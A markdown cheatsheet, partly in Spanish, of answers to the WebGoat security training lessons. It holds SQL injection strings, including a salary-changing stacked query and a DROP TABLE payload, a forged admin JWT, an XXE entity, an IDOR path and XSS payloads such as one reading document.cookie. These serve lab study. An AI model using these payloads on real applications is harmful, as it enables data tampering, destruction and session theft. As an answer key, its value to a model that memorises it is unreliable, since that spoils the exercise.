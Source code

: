 # Cheatsheet

https://github.com/WebGoat/WebGoat/wiki/Main-Exploits

## CIA TRIAD
[Descripción de CIAD](https://www.forcepoint.com/es/cyber-edu/cia-triad)

1- Solution 3: By stealing a database where names and emails are stored and uploading it to a website.
2- Solution 1: By changing the names and emails of one or more users stored in a database.
3- Solution 4: By launching a denial of service attack on the servers.
4- Solution 2: The systems security is compromised even if only one goal is harmed.

## Crypto basics

### 2

[Encoding](https://www.w3.org/International/questions/qa-what-is-encoding)
[Encode64](https://www.base64decode.org/)

### 3

[XOR IBM](https://strelitzia.net/wasXORdecoder/wasXORdecoder.html)

`databasepassword`

### 4

[MD5](https://www.md5online.org/md5-decrypt.html)
[SHA256](https://hashes.com/es/decrypt/hash)

### 5
Symmetric - Misma llave
-  Is an older method of encryption, it is faster and more efficient than asymmetric encryption, which takes a toll on networks due to performance issues with data size and heavy CPU use.
-  Is typically used for bulk encryption / encrypting large amounts of data, e.g. for database encryption. In the case of a database, the secret key might only be available to the database itself to encrypt or decrypt.


 Asymmetric - llave publica llave privada
 
# A1 Injection

## Intro

### 2

```SQL
select employees.department from employees where first_name = 'Bob' and last_name = 'Franco';
```
### 3

```SQL
UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' and last_name = 'Barnett';
```
### 4

```SQL
ALTER TABLE employees ADD phone varchar(20);
```
### 5

```SQL
GRANT ALTER TABLE to 'UnauthorizedUser';
```
### 9

```
Smith'
or 
'1' = '1 
```

### 10

```
1
'1' or true = true
```

### 11

```
'" or true = true or '1' = '"
3SL99A
```


### 12

```
Smith
3SL99A'; update employees SET salary = 90000 where first_name = 'John' and last_name = 'Smith 
```

### 13

```sql
%'; DROP TABLE access_log;--
```
# A2

## Authentication Bypasses

### 2

```
secQuestion00=asd&secQuestion01=asd
```

## JWT

### 4

```
victory
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1OTgxMzA5MjIsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJUb20ifQ.WOETTS9Ed14B7_O2_TCBmGDHHfUH0fNnQKMGCXm3BqU-Tz0dJ-DX2IAqQjOqKchNOLVLFLJ8j2MkjgzwoYEVkQ
```

### 5

```
business
username: Webgoat
adelantar el tiempo de expiracion
```


## JWT Tokens



## Access control flaws -  Guessing & Predicting Patterns

```
WebGoat/IDOR/profile/2342384
```

## XXE - Let's try

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
```
## Modern REST framework

```xml
<?xml version="1.0" encoding='UTF-8'?>
<!DOCTYPE comment [
  <!ELEMENT comment (Activity)>
  <!ELEMENT Activity (#PCDATA)>
  <!ENTITY xxe SYSTEM "..">
]>
<comment><text>&xxe;</text></comment>
```

## Try It! String SQL Injection

```
Smith' and '1'='1
```

## Try It! Numeric SQL Injection

```
101 OR TRUE
```

## SQL Injection (mitigation) - ZAP

```
192.168.6.4
```

## Authentication Bypasses - ZAP

```
secQuestion00=asd&secQuestion01=asd
```

## What is XSS

```
yes / no 
```

```
javascript:alert(document.cookie);
```

## Try It! Reflected XSS

Enter your credit card number:
```
<script>alert('my javascript here')</script>
```
## Identify Potential for DOM-Based XSS

```
start.mvc#test/
```

## Try It! DOM-Based XSS

Consola:
```
webgoat.customjs.phoneHome()
```
